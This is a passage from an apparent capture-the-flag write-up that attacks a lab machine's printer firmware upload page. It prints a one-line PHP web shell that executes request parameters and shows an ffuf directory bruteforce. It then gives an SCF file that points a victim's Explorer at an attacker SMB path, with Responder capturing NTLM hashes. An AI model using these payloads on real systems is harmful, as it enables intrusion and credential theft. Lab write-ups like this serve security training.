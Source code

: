 ```php
<?php if(isset($_REQUEST['gg'])){echo "<pre>";$cmd=($_REQUEST['gg']);system($cmd);echo "</pre>";die;}?>
```

we can upload the file successfully but have no awareness of where on the server it might be stored. Let's try directory bruteforcing to try and find a location. I do this using `ffuf`

> `ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt  -u 'http://10.10.11.106/FUZZ'  -e .php`

```bash
images                  [Status: 301, Size: 150, Words: 9, Lines: 2, Duration: 66ms]
index.php               [Status: 401, Size: 20, Words: 2, Lines: 2, Duration: 78ms]
Images                  [Status: 301, Size: 150, Words: 9, Lines: 2, Duration: 66ms]
.                       [Status: 401, Size: 20, Words: 2, Lines: 2, Duration: 70ms]
Index.php               [Status: 401, Size: 20, Words: 2, Lines: 2, Duration: 66ms]
IMAGES                  [Status: 301, Size: 150, Words: 9, Lines: 2, Duration: 79ms]
INDEX.php               [Status: 401, Size: 20, Words: 2, Lines: 2, Duration: 80ms]

```

Hmm nothing useful. Reading the message on the upload page again

"   Select printer model and upload the respective firmware update ***to our file share***. Our testing team will ***review the uploads manually*** and initiates the testing soon. "

I passed over this on the first reading not realising the potential this creates. We can:
- Create a file on the SMB share (via file upload on web interface)
- Have a user browse the share to look at that file

With this combination, we can cause the user to authenticate back to us and capture their hash with responder.

## foothold

I have used to following [blog](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) as reference for this section.

we create an SCF file that will try to fetch an icon from us, allowing us to capture the hash of the user browsing the file share with responder

```ini
[Shell]
Command=2
IconFile=\\<MY-IP>\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop

```

now we start responder with the following arguments
```bash
responder -wrf --lm -v -I tun0
```

now uploading the file we get hashes captured on responder
